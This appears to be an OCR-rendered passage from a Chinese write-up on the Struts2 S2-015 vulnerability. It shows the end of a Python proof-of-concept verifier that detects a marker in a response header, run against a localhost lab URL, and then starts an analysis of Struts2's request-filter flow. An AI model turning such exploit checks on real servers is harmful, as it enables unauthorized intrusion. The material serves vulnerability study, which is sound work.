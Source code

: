 ```python
            check_req = requests.get(check_url, headers = self.headers)
            if 'foobar' in check_req.headers.keys() and self.capta in check_req.headers['foobar']:
                return True
            else:
                return False
        except Exception as e:
            print(e)
            return False
        finally:
            pass

if  __name__ == "__main__":
    S2_015 = S2_015_2_BaseVerify('http://localhost:8080/s2_015_war_exploded/')
    print(S2_015.run())
```

## 漏洞分析

首先Struts2的运行流程是

![流程图](images/流程图.png)

&emsp;&emsp;&emsp;&emsp;1.HTTP请求经过一系列的标准过滤器(Filter)组件链(这些拦截器可以是Struts2 自带的,也可以是用户自定义的,本环境中struts.xml中的package继承自struts-default,struts-default就使用了Struts2自带的拦截器.ActionContextCleanUp主要是清理当前线程的ActionContext、Dispatcher,FilterDispatcher主要是通过ActionMapper来决定需要调用那个Action,FilterDispatcher是控制器的核心,也是MVC中控制层的核心组件),最后到达FilterDispatcher过滤器.
